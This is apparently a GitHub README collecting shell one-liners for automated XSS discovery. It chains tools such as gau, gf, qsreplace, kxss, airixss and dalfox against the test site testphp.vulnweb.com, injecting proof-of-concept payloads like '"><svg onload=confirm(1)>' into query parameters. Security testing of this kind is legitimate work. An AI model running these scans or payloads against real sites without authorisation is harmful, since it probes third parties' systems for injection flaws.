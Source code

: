 # One-liner-XSS-Scanner-
This is a collection of commands that's help you to find XSS via automation.

##Via Bash Script
### Tools:
> [Kxss](https://github.com/Emoe/kxss) : To find reflected values.\n
> [uro](https://github.com/s0md3v/uro): Declutters url lists for crawling.\n
> [gf](https://github.com/tomnomnom/gf): A wrapper around grep, to help you grep for things.\n
> [qsreplace](https://github.com/tomnomnom/qsreplace): To replace all query string values with a user-supplied value.
> [Freq](https://github.com/takshal/freq): To find alert values.
> [airixss](https://github.com/ferreiraklet/airixss): To find XSS during recon.
> [dalfox](https://github.com/hahwul/dalfox) : It’s a powerfull XSS scanner.

## First Case

```
echo http://testphp.vulnweb.com | gau | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```


![1_HTuqyTBftAdkwqfRL3jQ_w](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/b7975f46-d5ce-4adb-9f35-87d6b7af9294)


```
cat param.txt | kxss | awk '{print $9}'| dalfox pipe
```


![1_FO3algvVNFOrDIYh7wKbVQ](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/fbf15891-47df-43fe-a47a-aefc64c6493b)


```


cat param.txt | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
echo http://testphp.vulnweb.com | gau | gf xss | uro  |qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"


```

![1__JCZZJX2T1XiHxH0FZPTWw](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/cfb1baa0-f59c-4447-9753-093fd6b62c77)



*You can Read the full methodology here at [Medium](https://0xelkot.medium.com/advanced-xss-discovery-streamlining-your-attack-strategy-with-cutting-edge-automation-tools-88cfd0f68c8e)*
